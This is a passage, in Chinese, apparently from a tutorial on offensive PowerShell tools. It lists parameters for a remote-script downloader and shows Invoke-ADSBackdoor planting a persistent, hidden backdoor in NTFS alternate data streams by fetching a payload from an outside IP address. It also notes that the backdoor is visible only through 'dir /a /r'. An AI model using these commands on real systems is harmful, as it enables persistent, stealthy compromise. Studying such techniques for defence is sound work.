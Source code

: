 * -PayloadURL：指定下载的脚本的地址
*  -Arguments：指定要执行的函数名
* -Time：设置脚本执行的时间，例如`-Time 23:11`
* -CheckURL：检测一个指定的URL里是否存在StopString给出的字符串，如果存在就停止执行

#### Invoke-ADSBackdoor

该脚本能够在NTFS数据流中留下一个永久性的后门。这种方法的威胁时很大的，因为留下的后门是永久性的，且不容易被发现。

命令如下：

```powershell
Invoke-ADSBackdoor -PayloadURL http://192.168.12.110/test.ps1
```

执行后只能通过：

```powershell
dir /a /r
```

才能看到写入的文件。

